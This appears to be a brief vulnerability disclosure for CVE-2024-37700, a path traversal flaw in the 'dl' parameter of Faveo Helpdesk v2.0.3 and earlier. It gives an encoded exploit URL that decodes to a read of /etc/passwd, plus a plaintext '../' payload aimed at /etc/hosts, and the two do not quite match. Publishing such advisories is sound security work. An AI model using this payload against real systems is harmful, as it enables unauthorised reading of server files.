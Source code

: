 CVE-2024-37700


Vulnerability: File Traversal via dl

URL: ```https://192.168.124.130/logs?dl=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d```

Payload: ```../../../../../../../../../../../../../../../../etc/hosts```

Action to trigger: None

Note: The payload needs to be base64 encoded and then URL encoded

Version: ‎Version v2.0.3 and prior

Authenticated: Yes

User: Admin

Vulnerable Parameter: dl


https://github.com/ladybirdweb/faveo-helpdesk

![](https://github.com/4rdr/proofs/blob/main/gifs/faveo-helpdesk_2.0.3_File_Traversal_via_dl.gif)
